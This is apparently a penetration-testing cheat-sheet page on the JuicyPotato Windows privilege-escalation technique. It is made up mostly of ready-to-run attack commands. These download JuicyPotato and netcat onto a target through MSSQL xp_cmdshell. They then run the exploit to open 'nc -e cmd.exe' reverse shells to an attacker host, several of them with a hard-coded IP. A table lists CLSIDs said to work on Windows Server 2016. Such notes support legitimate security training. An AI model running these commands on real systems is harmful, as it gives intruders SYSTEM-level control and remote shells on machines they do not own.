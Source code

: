 ```yaml
---
title: JuicyPotato
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - privilege
---
```

# 🥔 JuicyPotato

Escalating privileges to `SYSTEM` level when the command `whoami /priv` confirms that [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) is listed for our user.

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) and its [variants](https://github.com/decoder-it/lonelypotato) leverages the privilege escalation chain based on [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [service](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126) having the MiTM listener on `127.0.0.1:6666` and when you have `SeImpersonate` or `SeAssignPrimaryToken` privileges. During a Windows build review we found a setup where `BITS` was intentionally disabled and port `6666` was taken.

Download from: [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)


**1.** Upload the `JuicyPotato.exe` binary and upload this and `nc.exe` to the target server. 

```
# Serve the content from your kali attacking machine
python3 -m http.server 80

# If we have for example a myssql connection 
xp_cmdshell "powershell -c cd C:\Tools; wget http://IPfromOurKali/JuicyPotato.exe -outfile JuicyPotato.exe"
xp_cmdshell "powershell -c cd C:\Tools; wget http://IPfromOurKali/nc64.exe -outfile nc64.exe"
```


**2.**  Set a listener in your attacking machine:

```
nc -lnvp 1234
```

**3.** Run JuicyPotato:

```
# From the myssql connection
xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe $IPattackingMachine 1234 -e cmd.exe" -t *

# From a terminal run by an user with SeImpersonatePrivilege:
.\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe  $IPattackingMachine 1234 -e cmd.exe" -t *
```

## Troubleshooting CLSID

- In Windows, a **CLSID** (Class ID) is a **unique identifier** (GUID format) for a **COM object**.
- JuicyPotato (and similar exploits) work by abusing **specific COM services** that:
    
    - Run as SYSTEM
    - Allow you (the user) to trigger them
    - Are vulnerable to impersonation (they delegate their privileges poorly)
        
- If the COM service doesn't behave correctly (wrong CLSID), you get errors like `recv failed with error: 10038`.


→ **So the choice of CLSID is critical**: **Some CLSIDs will work; others will not depending on your OS and what services are running.**


### Which CLSIDs should you use on Windows Server 2016?

Here are some CLSIDs often successful on Windows Server 2016:

| CLSID                                    | Description          | Notes                        |
| ---------------------------------------- | -------------------- | ---------------------------- |
| `{3E5FC7F9-9A51-4367-9063-A120244FBEC7}` | `IObjectActivator`   | Very commonly works          |
| `{4991d34b-80a1-4291-83b6-3328366b9097}` | `BITS`               | Might still work sometimes   |
| `{d63e0ce2-a0a2-11d0-9c02-00c04fc99c8e}` | `PSFactoryBuffer`    | Good choice                  |
| `{e60687f7-01a1-40aa-86ac-db1cbf673334}` | `ShellBrowserWindow` | Sometimes works              |
| `{d20caec4-5ca8-4905-ae3b-bf251ea09b53}` | `ShellWindows`       | Works but unstable sometimes |


```powershell
.\JuicyPotatoNG.exe -p cmd.exe -a "/c your_payload" -t * -l 9999 -c

# Example:
.\JuicyPotato.exe -p c:\windows\system32\cmd.exe -a "/c C:\Users\Public\Documents\nc64-32.exe 10.10.15.146 1234 -e cmd.exe" -t * -l 9999 -c


.\JuicyPotato.exe -p c:\windows\system32\cmd.exe -a "/c C:\Users\Public\Documents\nc64-32.exe 10.10.15.146 1234 -e cmd.exe" -c {3E5FC7F9-9A51-4367-9063-A120244FBEC7}

.\JuicyPotato.exe -p c:\windows\system32\cmd.exe -a "C:\Users\Public\Documents\nc64-32.exe 10.10.15.146 1234 -e cmd.exe" -t * -l 9999 -c {3E5FC7F9-9A51-4367-9063-A120244FBEC7}

.\MSFRottenPotato.exe -p c:\windows\system32\cmd.exe -a "/c C:\Users\Public\Documents\nc64-32.exe 10.10.15.146 1234 -e cmd.exe" -t * -l 9999 -c {d63e0ce2-a0a2-11d0-9c02-00c04fc99c8e}

.\JuicyPotatoNG.exe -p c:\windows\system32\cmd.exe -a "/c C:\Users\Public\Documents\nc64-32.exe 10.10.15.146 1234 -e cmd.exe" -t * -b

```

where `-c` = **scan all CLSIDs** and find a working one automatically.